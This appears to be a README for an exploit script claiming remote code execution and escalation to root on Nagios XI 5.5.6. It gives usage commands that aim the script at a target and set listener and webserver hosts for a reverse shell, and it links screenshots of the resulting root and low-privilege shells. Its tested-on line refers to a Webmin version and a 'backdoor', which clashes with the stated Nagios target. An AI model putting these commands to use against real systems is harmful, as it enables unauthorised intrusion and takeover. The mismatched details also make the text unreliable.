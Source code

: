 # Nagios XI 5.5.6 Remote Code Execution and Privilege Escalation

```
1.  Nagios XI 5.5.6
```

### Script Usage:
#### Tested on v1.890, but should also work for other webmin versions in which this backdoor is installed.
`python3 nagiosxi.py -t https://10.10.10.10 -lh 172.16.1.2 -lp 7777 -wh 172.16.1.2 -wp 8888`

![](https://github.com/ruthvikvegunta/nagiosxi_rce-to-root/blob/master/images/root.png)

`python3 nagiosxi.py -t https://10.10.10.10 -lh 172.16.1.2 -lp 7777 -wh 172.16.1.2 -wp 8888 -shell low`

![](https://github.com/ruthvikvegunta/nagiosxi_rce-to-root/blob/master/images/low_priv.png)
